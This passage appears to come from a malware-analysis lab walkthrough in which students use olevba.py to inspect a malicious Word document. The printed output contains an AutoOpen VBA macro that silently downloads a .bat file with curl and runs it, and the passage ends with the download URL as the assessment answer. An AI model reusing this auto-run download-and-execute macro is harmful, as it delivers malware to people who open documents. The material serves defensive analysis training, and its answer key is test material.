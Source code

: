 ```
--------------------+--------------------+----------+--------------------------
```

With the obtained information related macros in the file, students will use `olevba.py` to dump information about the macro and the code within it. They will find the embedded URL within the `Beatrix` variable:

```cmd
python .\olevba.py C:\Tools\Maldoc\assessment\Benefits2024.docm
```
```
C:\Tools\Maldoc\Office\Tools\oletools>python .\olevba.py C:\Tools\Maldoc\assessment\Benefits2024.docm

XLMMacroDeobfuscator: pywin32 is not installed (only is required if you want to use MS Excel)
olevba 0.60.2 on Python 3.12.4 - http://decalage.info/python/oletools
===============================================================================
FILE: C:\Tools\Maldoc\assessment\Benefits2024.docm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word/vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub AutoOpen()
'
' AutoOpen Macro
'
'

Beatrix = "{hidden}"
Shell ("cmd /c curl -L -o %APPDATA%\Pun.bat " & Beatrix & " && %APPDATA%\Pun.bat"), vbHide
End Sub

<SNIP>
```

Answer: `https://gitlab.com/DemoTrojan/real/-/raw/main/check.bat`